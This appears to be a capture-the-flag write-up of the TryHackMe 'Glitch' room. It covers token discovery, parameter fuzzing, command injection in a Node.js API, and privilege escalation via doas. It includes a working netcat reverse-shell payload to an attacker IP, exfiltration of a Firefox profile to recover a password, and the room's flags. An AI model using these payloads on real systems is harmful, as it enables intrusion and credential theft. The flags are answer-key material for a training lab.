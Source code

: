 ```yaml
---
title: Glitch
layout: post
author: Bit Criminals Team
date: 2021-05-14 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/glitch
---
```


We start with out routine Nmap scan which reveals that port 80 (running on Node js) is the only port open out of all 65535 ports.

![](/images/MaskdMafia/glitch3.png)

So we add the ip to our /etc/hosts before proceeding to visit it in our browser and be greeted with this:

![](/images/MaskdMafia/glitch1.png)

The question gives an idea about some kind of access token.
Checking the source code of the webpage, we find this interesting function getAccess() which seems to be fetching something.

![](/images/MaskdMafia/glitch2.png)

So we execute the function in the console and get back a string which seems to be base64 encoded.

![](/images/MaskdMafia/glitch4.png)

So we decode it and get the Access token.

![](/images/MaskdMafia/glitch5.png)

Checking the Network Tab of the webpage shows us that the value of the token has not been entered yet, so we enter the value of our Access token and reload the page in the browser to get a different-looking webpage.

![](/images/MaskdMafia/glitch6.png)

Looking at the source code of the new webpage, we see a section /api/items so we try to access it in our browser.

![](/images/MaskdMafia/glitch7.png)

So we fire up BurpSuite to see what is happening when we try to access the page .
We see that while trying to send a post request to /api/items we get this message:

```py
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since,we are able to send POST requests.Let us search which parameters are available with wfuzz.

```
wfuzz -XPOST -u http://ip/api/items?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt --hh 45
```

![](/images/glitch.png)

Thus, we see that Cmd is available.

Now,we fire up burp and send a random request with cmd and it's working.

![](/images/glitch2.png)

Now,I started searching for the payload and I found one

```
require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.53 4444 >/tmp/f")
```

I changed the ip,encoded in URl form and POST this one.
And,it worked.

![](/images/glitch4.png)

Listening to the PORT we have the shell.

we stabilise our shell then with,

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Looking in the directories we get our user flag.

![](/images/glitch5.png)

Here's our user flag:**THM{i_don't_know_why}**

After some searching we found a **.firefox** folder inside **/home/user/** directory

We can take advantage of this folder and extract next user's password...

Firstly we created a tar file of the .firefox folder and sent it to our terminal through nc

![](/images/D4rkDemian/_glitch2.png)

![](/images/D4rkDemian/_glitch3.png)

After running following command we got the v0id user's password 

```shell
firefox --profile b5w4643p.default-release --allow-downgrade
```

![](/images/D4rkDemian/_glitch.png)

```
v0id:love_the_void
```

After logging as v0id I searched for some leaks through which we can become root and I found that as **doas**

i ran 
```shell
find / -type f -perm /40000 2>/dev/null
```
and doas was a sus!

![](/images/D4rkDemian/_glitch4.png)

After reading about it in [doas](https://github.com/slicer69/doas) i used the following command and got the root

```shell
doas bash -p
```
![](/images/D4rkDemian/_glitch5.png)

And finally got the root flag!!

**THM{diamonds_break_our_aching_minds}**


